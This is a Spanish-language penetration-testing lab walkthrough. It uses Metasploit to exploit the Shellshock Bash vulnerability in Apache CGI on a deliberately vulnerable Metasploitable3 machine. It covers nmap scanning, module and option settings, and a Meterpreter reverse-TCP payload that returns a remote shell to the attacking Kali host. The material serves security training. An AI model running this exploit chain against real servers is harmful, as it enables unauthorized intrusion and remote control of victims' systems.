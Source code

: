 # Explotar vulnerabilidad CVE-2014-6271 (Shellshock) presente en Apache.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasploitable3_ubu1404***.

Este laboratorio muestra como usar la vulnerabilidad ***Shellshock*** que consigue ejecutar código mediante su inyección en una variable de entorno de Bash. Para ello usa el módulo ***mod_cgi*** del servidor Apache. Aquí tienes información sobre la vulnerabilidad: https://www.cvedetails.com/cve/CVE-2014-6271/.

La debilidad se encuentra en cómo la shell ***Bash*** gestiona las variables de entorno externas. Utiliza ***scripts CGI*** en el servidor web Apache inyectando una función maliciosa en la variable de entorno ***HTTP_USER_AGENT***.

Usamos ***nmap*** contra la víctima para determinar si está presente el servidor Apache.
```
nmap -sV 192.168.20.13 -p 80, 443
```

Como puede observarse en la imagen, está presente el servidor ***Apache 2.4.7*** en el puerto ***80***.

![Servidor Apache presente](../img/lab-30-B/202208111032.png)

Cargamos la consola de ***Metasploit*** sino estuviera ya iniciada.
```
msfconsole
```

Procedemos a cargar el módulo para realizar el ataque.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Mostramos las ***opciones*** de este exploit.
```
show options
```

Las opciones son las siguientes.

![Opciones del módulo](../img/lab-30-B/202208111038.png)

Las configuraciones que debemos proporcionar son:

* *CMD_MAX_LENGTH*: Obligatoria. Es el número de caracteres que vamos a inyectar en la víctima. El valor 2048 suele ser suficiente para albergar las diferentes ***payloads*** disponibles. No lo cambiamos.
* *CVE*: Obligatoria. Contiene la vulnerabilidad a explotar, pudiendo elegir entre CVE-2014-6271 (https://www.cvedetails.com/cve/CVE-2014-6271/) y CVE-2014-6278 (https://www.cvedetails.com/cve/CVE-2014-6278/). Esta última es una variante de la anterior. Dejaremos el valor por defecto.
* *HEADER*: Obligatoria. Especifica la cabecera HTTP que será usada para inyectar el código malicioso. Debe ser ***User-Agent***, así que no la cambiamos.
* *METHOD*: Obligatoria. Especifica el verbo HTTP a utilizar. Debe ser ***GET***. No lo cambiamos.
* *Proxies*: Opcional. Permite relizar el ataque a través de un proxy. No lo usaremos.
* *RHOSTS: Obligatoria. IP(s) de la víctima(s). Ponemos la de ***Metasploitable-ubu1404***, que es ***192.168.20.13***.
* *RPATH*: Obligatoria. Ruta para los binarios usados por el ***Command Stager***. Cuando un payload es largo, el ataque podría no funcionar porque no es posible inyectar la totalidad de dicho payload. El ***Command Stager*** es un pequeño programa que puede ser inyectado, siendo su misión la de descargar el payload verdadero por trozos o partes (etapas). Dejamos la ruta por defecto.
* *RPORT*: Puerto que está sirviendo Apache. Como hemos visto con ***nmap*** es el ***80***. Lo dejamos tal cual.
* *SRVHOST*: Obligatoria. IP del servidor en la máquina ***Kali*** que recibirá la conexión del payload. Si solo disponemos de una IP, es indiferente. No cambiamos este ajuste.
* *SRVPORT*: Obligatoria. Puerto del servidor en la máquina ***Kali*** desde el que el ***CmdStager*** se descargará el payload. Dejamos este valor.
* *SSL*: Opcional. Podemos ocultar el tráfico del payload por medio de SSL. Su finalidad es evadir la detección de los ***IPS***. No lo usamos.
* *SSLCert*: Opcional. Certificado necesario para usar SSL. No lo usamos.
* *TARGETURI*: Ruta al script CGI que será inyectado y que deseamos ejecutar. Lo cambiamos a ***/cgi-bin/hello_world.sh***.
* *TIMEOUT*: Obligatorio. Tiempo de espera para recibir la response. Lo dejamos como está.
* *URIPATH*: Opcional. Este exploit no usa URI. Lo dejamos en blanco.
* *VHOST*: Opcional. Un ***Virtual host*** es una forma de alojamiento web que permite que varias paginas web puedan funcionar en un mismo host. Nuestro objetivo no es un virtual host, así que lo dejamos en blanco.

```
set RHOSTS 192.168.20.13
```

```
set TARGETURI /cgi-bin/hello_world.sh
```

Es el momento de mostrar los payloads compatibles con este ataque.
```
show payloads
```

Tenemos mucha diversidad.

![Lista de payloads](../img/lab-30-B/202208111124.png)

Vamos a usar un ***Meterpreter***.
```
set payload linux/x86/meterpreter/reverse_tcp
```
```
show options
```

Debemos configurar las opciones del payload.

![Opciones del payload](../img/lab-30-B/202208111129.png)

Establecemos como atacante la máquina de ***Kali***.
```
set LHOST 192.168.20.9
```

Respecto a ***LPORT*** dejamos el valor propuesto (***4444***). A este puerto se conectará el payload de meterpreter para ofrecernos la shell inversa.

Mostramos los ***targets***.
```
show targets
```

Hay dos candidatos, pero cuidado, el payload de meterpreter que hemos elegido es ***x86***, por lo que no funcionará en sistemas de ***64*** bits. Mejor elegimos el ***target 0*** (un sistema de 64 también lo es de 32).
```
set target 0
```

El comando ***Check*** nos indica si se cumplen todas las condiciones para que el ataque pueda prosperar. Si nos dijera ***el objetivo NO es vulnerable*** seguro que el ataque no funcionará. Por el contrario, si la respuesta es ***el objetivo ES vulnerable***, solo nos informa que se cumplen las condiciones, pero no es garantía de que funcione. La víctima puede tener contramedidas (antivirus, IPS, etc) o incluso estar parcheada.
```
check
```

En principio podemos seguir con el ataque.

![Target is vulnerable](../img/lab-30-B/202208111155.png)

Solo resta lanzar el ataque y esperar obtener una shell inversa.
```
run
```

Ya tenemos una shell inversa de Meterpreter en la víctima.

![Shell de Meterpreter](../img/lab-30-B/202208111157.png)

Ejecutamos algunos comandos.
```
sysinfo
```

```
help
```

```
exit
```

***FIN DEL LABORATORIO***